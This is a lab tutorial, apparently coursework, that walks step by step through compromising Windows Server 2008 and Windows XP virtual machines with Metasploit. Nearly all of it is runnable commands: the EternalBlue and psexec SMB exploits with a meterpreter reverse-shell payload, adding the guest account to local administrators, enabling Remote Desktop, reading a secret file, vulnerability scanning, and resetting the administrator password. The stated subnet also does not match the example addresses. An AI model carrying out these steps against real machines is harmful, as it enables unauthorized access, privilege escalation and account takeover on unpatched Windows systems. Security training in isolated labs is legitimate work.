 ## Summary:
This is a tutorial for recreate a metasploit use in  a windows server 2008 and xp sp1

## Description
With three virtual machines, one with kali, other with windows server 2008, and other with windows xp sp1 connected with a host-only adapter (In a network 10.100.1.0/24). For this exploits it is use metasploit.

## Steps To Reproduce:

1. Download, install and power on the kali,windows server 2008 and windows xp .ova (links below)
	- Kali.- user:root pass:root
	- For all machines use a host-only adapter and for windows server 2008 and xp power off first and second adapter and set the third adapter in host-only
2. For windows server 2008
	1. Connect via meterpreter
		- Open a terminal in kali
		- Use the next commands:
			- msfconsole
			- use exploit/windows/smb/ms17_010 _eternalblue
			- set payload windows/x64/meterpreter/reverse_tcp
			- set rhost ip
				- Eg. set rhost 100.100.1.7
			- set lhost ip
				- Eg. set lhost 100.100.1.4
			-  exploit
			-  getuid    to see witch user is logged
	2. Scall privileges for guest
		- Since we are Nt Authority we dont need to escalate privileges on this session
		- Use the next commands:
			- shell
			- net localgroup administrators guest /add
			- exit
	3. For enable Remote Desktop use
		- run getgui -e
	4. For remote login with user "guest"
		- Open a new terminal and use
		- rdesktop -u guest ip
			- Eg. rdesktop -u guest 100.100.1.7
	5. For read secret.txt
		- In the rdesktop sesion go to C:\Users\Administrator\Documents
		- And open secret.txt
	6. For see others vuln
		- Open a new terminal and use the next commands
			- msfdb init
			- msfconsole
			- db_nmap 100.100.1.7 to see which services are open
			- db_nmap -sV -Pn --script vuln 100.100.1.7
	7. For change administrator password
		- In the terminal where you have the sesion of msf open
		- Use the next commands
			- shell
			- net user administrator password
				- Eg. net user administrator Lala123
2. For windows xp
	1. Connect via meterpreter
		- Open a terminal in kali
		- Use the next commands:
			- msfconsole
			- Use exploit /windows/smb/ms17_010 _psexec
			- set rhost ip
				- Eg. set rhost 100.100.1.9
			- set lhost ip
				- Eg. set lhost 100.100.1.4
			-  exploit
			-  getuid    to see witch user is logged
	2. Scall privileges for guest
		- Since we are Nt Authority we dont need to escalate privileges on this session
		- Use the next commands:
			- shell
			- net localgroup administrators guest /add
			- exit
	3. For enable Remote Desktop use
		- run getgui -e
	4. For remote login with user "guest"
		- Open a new terminal and use
		- rdesktop -u guest ip
			- Eg. rdesktop -u guest 100.100.1.9
	5. For read secret.txt
		- In the rdesktop sesion go to C:\Documents and Settings\Administrator\My Documents
		- And open secret.txt
	6. For see others vuln
		- Open a new terminal and use the next commands
			- msfdb init
			- msfconsole
			- db_nmap 100.100.1.9 to see which services are open
			- db_nmap -sV -Pn --script vuln 100.100.1.9
	7. For change administrator password
		- In the terminal where you have the sesion of msf open
		- Use the next commands
			- shell
			- net user administrator password
				- Eg. net user administrator Lala123


## Supporting Material/References:
[Kali .ova](https://iteso01-my.sharepoint.com/:f:/g/personal/si721750_iteso_mx/EmWoa89IGO1BsbMddO7j43IBluuqGNmTLKVSD4PIap5IPw?e=moBewg)

[Windows server 2008 .ova](https://storage.googleapis.com/isos-iteso-esi-1/isos/WindowsServer2008.ova)

[Windows xp .ova](https://storage.googleapis.com/isos-iteso-esi-1/isos/WinXP.ova)

[Kali](https://www.kali.org/)

[Metasploit](https://www.metasploit.com/)

[Metasploit guide](https://www.offensive-security.com/metasploit-unleashed/)